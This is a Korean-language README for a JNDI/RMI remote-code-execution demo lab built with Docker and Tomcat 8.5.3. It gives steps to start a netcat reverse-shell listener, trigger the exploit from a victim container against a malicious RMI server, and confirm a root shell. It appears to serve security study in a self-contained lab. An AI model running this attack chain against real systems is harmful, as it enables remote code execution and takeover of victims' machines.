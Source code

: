 # RMI-RCE-Demo
ref. https://github.com/zer0-map/JNDI-Injection-Series/tree/main

![image-001](/images/img-001.png)

## 요구사항
```bash
$ java -version
openjdk version "1.8.0_181"
OpenJDK Runtime Environment (Zulu 8.31.0.1-macosx) (build 1.8.0_181-b02)
OpenJDK 64-Bit Server VM (Zulu 8.31.0.1-macosx) (build 25.181-b02, mixed mode)
```

## 설치 및 공격자 리버스 셸 대기

1. docker-compose 실행
    ```bash
    $ docker-compose up -d
    ```

2. 호스트 PC(공격자) 리버스 셸 준비
    ```bash
    $ nc -lv 9999
    ```

## Exploit

1. 피해자 PC(rmi-client 컨테이너) 접속
    ```bash
    $ docker exec -it rmi-client /bin/bash
    ```

2. Exploit 수행(악성 rmi-server 요청) 
    ```bash
    $ java -classpath build:libs/tomcat-catalina-8.5.3.jar:libs/tomcat-embed-el-8.5.3.jar RmiClient rmi-server
    ```

## 리버스 셸 검증
1. 호스트 PC에서 리버스 셸 연결 확인
    ```bash
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    $ ls -al
    total 24
    drwxr-xr-x 1 root root 4096 Aug  3 20:02 .
    drwxr-xr-x 1 root root 4096 Aug  3 20:12 ..
    drwxr-xr-x 1 root root 4096 Aug  3 20:03 build
    drwxr-xr-x 2 root root 4096 Aug  3 18:35 libs
    drwxr-xr-x 2 root root 4096 Aug  3 19:50 src
    ```

## 기타 명령어
- 빌드
    ```bash
    $ javac -d ./build -classpath libs/tomcat-embed-el-8.5.3.jar:libs/tomcat-catalina-8.5.3.jar ./src/RmiClient.java 
    $ javac -d ./build -classpath libs/tomcat-embed-el-8.5.3.jar:libs/tomcat-catalina-8.5.3.jar ./src/RmiServer.java 
    ```

- 실행
    ```bash
    # RmiServer
    $ java -classpath build:libs/tomcat-catalina-8.5.3.jar:libs/tomcat-embed-el-8.5.3.jar RmiServer
    # RmiClient
    # [HOST_IP]에 RmiServer가 동작 중인 Host의 IP를 작성한다.
    $ java -classpath build:libs/tomcat-catalina-8.5.3.jar:libs/tomcat-embed-el-8.5.3.jar RmiClient [HOST_IP]
    ```bash